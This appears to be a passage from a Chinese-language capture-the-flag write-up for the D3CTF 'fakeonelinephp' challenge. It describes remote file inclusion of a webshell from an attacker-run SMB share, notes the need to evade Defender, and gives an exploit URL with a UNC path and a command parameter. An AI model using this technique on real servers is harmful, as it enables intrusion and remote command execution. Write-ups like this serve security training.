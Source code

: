 ![https://xz.aliyun.com/t/5535里提到的webdav远程文件包含](img/09a11b298b146d9e83f4429e964579a1.png)

但是如果用这个方法，你就不能使用一句话木马了，必须要做免杀，不然会被include函数自己本身的defender给拦截。

我在这里使用的是国外的服务器，搭建了一个smb，然后马子里面就是简单的exec()函数。

```
http://35547429ed.fakeonelinephp.d3ctf.io/?orange=\\************\share\test5&a=dir 
```

![外网shell](img/a448b09d2de73a4cb1b8c18e83e162af.png)
